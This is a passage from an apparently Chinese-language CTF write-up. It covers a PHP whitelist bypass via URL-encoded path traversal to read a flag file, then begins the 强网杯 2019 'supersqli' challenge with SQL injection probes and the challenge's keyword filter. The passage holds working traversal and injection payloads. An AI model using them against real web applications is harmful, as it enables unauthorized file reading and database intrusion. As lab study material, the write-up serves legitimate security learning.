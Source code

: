 ```php
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {			
                // return true;
                echo '4.'.$_page.'<br>';
            }
            echo '5.'."you can't see it<br>";
            // return false;
            echo '6.'.$_page.'<br>';
?>
    
    
// 输出
    
// >>> you can't see it
// >>> source.php%3ffile=../../../../../../../ffffllllaaaagggg
```

观测此字符串可以绕过。由此构造Payload: `source.php?file=source.php%3ffile=../../../../../../../ffffllllaaaagggg` 通过。

> 疑惑：为什么`index.php?file=source.php?/../../../../ffffllllaaaagggg`和`index.php?file=source.php%253f/../../../../ffffllllaaaagggg`是可以通过的。



## * supersqli FROM 强网杯 2019 

Github & Docker： `https://github.com/glzjin/qwb_2019_supersqli.git`

输入2，无反应。输入 1 确认，返回：

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
```

输入 `1'` 返回：

```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

输入 `1' union select schema_name from information_schema.schemata;` ，返回：

```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

确定过滤了上述词。
